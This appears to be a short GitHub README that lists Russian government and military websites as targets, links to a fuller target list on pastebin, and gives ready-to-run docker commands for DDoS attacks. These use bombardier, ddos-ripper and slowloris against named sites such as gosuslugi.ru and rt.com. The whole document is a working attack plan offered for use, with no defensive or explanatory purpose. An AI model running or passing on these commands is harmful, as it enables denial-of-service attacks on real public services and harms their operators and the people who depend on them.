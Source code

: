 # List of (some) public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/

# Full list of targets

https://pastebin.com/JEuV9ftT

# DDoS commands

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u URL] [-s numberOfSockets]
```
